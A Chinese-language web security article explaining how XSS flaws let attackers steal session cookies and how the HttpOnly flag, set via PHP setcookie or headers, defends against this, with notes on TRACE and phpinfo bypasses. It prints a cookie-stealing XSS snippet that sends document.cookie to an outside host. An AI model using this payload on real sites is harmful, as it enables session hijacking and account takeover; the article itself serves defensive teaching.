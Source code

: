[原文链接](http://kb.cnblogs.com/page/115136/)
	随着www服务的兴起，越来越多的应用程序转向了B/S结构，这样只需要一个浏览器就可以访问各种各样的web服务，但是这样也越来越导致了越来越多的web安全问题。www服务依赖于Http协议实现，Http是无状态的协议，所以为了在各个会话之间传递信息，就不可避免地用到Cookie或者Session等技术来标记访问者的状态，而无论是Cookie还是Session，一般都是利用Cookie来实现的(Session其实是在浏览器的Cookie里带了一个Token来标记，服务器取得了这个Token并且检查合法性之后就把服务器上存储的对应的状态和浏览器绑定)，这样就不可避免地安全聚焦到了Cookie上面，只要获得这个Cookie，就可以取得别人的身份，这对于入侵者是一件很美妙的事情，特别当获得的Cookie属于管理员等高权限身份者时，危害就更大了。在各种web安全问题里，其中xss漏洞就因此显得格外危险。

	对于应用程序来说，一旦存在了xss漏洞就意味着别人可以在你的浏览器中执行任意的js脚本，如果应用程序是开源的或者功能是公开的话，别人就可以利用ajax使用这些功能，但是过程往往很烦琐，特别是想直接获得别人身份做随意浏览的话困难就更大。而对于不开源的应用程序，譬如某些大型站点的web后台(web2.0一个显著的特征就是大量的交互，用户往往需要跟后台的管理员交互，譬如Bug汇报，或者信息投递等等)，尽管因为交互的存在可能存在跨站脚本漏洞，但是因为对后台的不了解，无法构造完美的ajax代码来利用，即使可以用js取得后台的代码并回传分析，但是过程同样烦琐而且不隐蔽。这个时候，利用xss漏洞获得Cookie或者Session劫持就很有效了，具体分析应用程序的认证，然后使用某些技巧，甚至可以即使对方退出程序也一样永久性获得对方的身份。

	那么如何获得Cookie或者Session劫持呢?在浏览器中的document对象中，就储存了Cookie的信息，而利用js可以把这里面的Cookie给取出来，只要得到这个Cookie就可以拥有别人的身份了。一个很典型的xss攻击语句如下：
````  
　　xss exp:
　　url=document.top.location.href;
　　cookie=document.cookie;
　　c=new Image();
　　c.src=’http://www.loveshell.net/c.php?c=’+cookie+’&u=’+url;
````  

　　一些应用程序考虑到这个问题所在，所以可能会采取浏览器绑定技术，譬如将Cookie和浏览器的User-agent绑定，一旦发现修改就认为Cookie失效。这种方法已经证明是无效的，因为当入侵者偷得Cookie的同时他肯定已经同时获得了User-agent。还有另外一种比较严格的是将Cookie和Remote-addr相绑定(其实就是和IP绑定，但是一些程序取得IP的方法有问题一样导致饶过)，但是这样就带来很差的用户体验，更换IP是经常的事，譬如上班与家里就是2个IP，所以这种方法往往也不给予采用。所以基于Cookie的攻击方式现在就非常流行，在一些web 2.0站点很容易就取到应用程序的管理员身份。
　　
	如何保障我们的敏感Cookie安全呢?通过上面的分析，一般的Cookie都是从document对象中获得的，我们只要让敏感Cookies浏览器document中不可见就行了。很幸运，现在浏览器在设置Cookie的时候一般都接受一个叫做HttpOnly的参数，跟domain等其他参数一样，一旦这个HttpOnly被设置，你在浏览器的document对象中就看不到Cookie了，而浏览器在浏览的时候不受任何影响，因为Cookie会被放在浏览器头中发送出去(包括ajax的时候)，应用程序也一般不会在js里操作这些敏感Cookie的，对于一些敏感的Cookie我们采用HttpOnly，对于一些需要在应用程序中用js操作的cookie我们就不予设置，这样就保障了Cookie信息的安全也保证了应用。关于HttpOnly说明可以参照 http://msdn2.microsoft.com/en-us/library/ms533046.aspx。

　　给浏览器设置Cookie的头如下：
```` 
　　Set-Cookie: =[; =]
　　[; expires=][; domain=]
　　[; path=][; secure][; HttpOnly]
```` 　　
以php为例，在php 5.2版本时就已经在Setcookie函数加入了对HttpOnly的支持，譬如：
```    
setcookie("abc","test",NULL,NULL,NULL,NULL,TRUE);
```` 
　　
	就可以设置abc这个cookie，将其设置为HttpOnly，document将不可见这个Cookie。因为setcookie函数本质就是个header，所以一样可以使用header来设置HttpOnly。然后再使用document.cookie就可以看到已经取不到这个Cookie了。我们用这种方法来保护利例如Sessionid，如一些用于认证的auth-cookie，就不用担心身份被人获得了，这对于一些后台程序和webmail提升安全性的意义是重大的。再次使用上面的攻击手法时可以看到，已经不能获取被我们设置为HttpOnly的敏感Cookie了。

	但是，也可以看到HttpOnly并不是万能的，首先它并不能解决xss的问题，仍然不能抵制一些有耐心的黑客的攻击，也不能防止入侵者做ajax提交，甚至一些基于xss的proxy也出现了，但是已经可以提高攻击的门槛了，起码xss攻击不是每个脚本小子都能完成的了，而且其他的那些攻击手法因为一些环境和技术的限制，并不像Cookie窃取这种手法一样通用。

	HttpOnly也是可能利用一些漏洞或者配置Bypass的，关键问题是只要能取到浏览器发送的Cookie头就可以了。譬如以前出现的Http Trace攻击就可以将你的Header里的Cookie回显出来，利用ajax或者flash就可以完成这种攻击，这种手法也已经在ajax和flash中获得修补。另外一个关于配置或者应用程序上可能Bypass的显著例子就是phpinfo，大家知道phpinfo会将浏览器发送的http头回显出来，其中就包括我们保护的auth信息，而这个页面经常存在在各种站点上，只要用ajax取phpinfo页面，取出header头对应的部分就可以获得Cookie了。一些应用程序的不完善也可能导致header头的泄露，这种攻击方式对于basic验证保护的页面一样可以攻击。

	HttpOnly在IE 6以上，Firefox较新版本都得到了比较好的支持，并且在如Hotmail等应用程序里都有广泛的使用，并且已经是取得了比较好的安全效果。
